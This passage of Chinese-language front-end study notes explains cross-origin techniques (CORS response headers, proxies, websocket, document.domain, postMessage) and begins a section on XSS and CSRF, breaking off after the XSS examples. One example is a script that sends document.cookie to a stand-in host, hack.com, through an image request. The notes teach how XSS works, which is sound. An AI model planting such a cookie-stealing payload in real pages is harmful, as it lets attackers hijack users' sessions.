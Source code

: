 服务端增加响应头

```javascript
Access-Control-Allow-Origin: * // 允许接受的主机名
Access-Control-Allow-Methods: POST, GET, OPTIONS // 允许的请求方法
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type // 允许的请求字段
Access-Control-Max-Age: 86400 // 预请求缓存时间
// ...
```

如果需要带上`cookie`或`http`认证信息

```javascript
// 服务端
"Access-Control-Allow-Credentials": true
// 客户端
"withCredentials": true
```

**缺点**

低版本IE可能不支持

#### 代理

- `webpack`开发时候代理
- `nginx`代理

#### websocket

不受同源策略限制

### DOM跨域

#### document.domain跨子域

比如a.wenye.com和b.wenye.com都将自己的document.domain=wenye.com，这样就可以拿到嵌套iframe的window对象了

#### window.name

没怎么了解..

#### location.hash

没怎么了解..

#### postMessage

html5新api

## xss和csrf攻击是什么，怎么预防

### xss跨站脚本攻击

其实就是`html`注入，恶意`html/js`代码从数据库读取后没有做任何处理直接就显示在了网页上。

```javascript
// 例子一: 显示弹窗
<script>alert('hello')</script>

// 例子二: 盗取cookie
var i = new Image()
i.src = 'http://hack.com?cookie=' + document.cookie
```
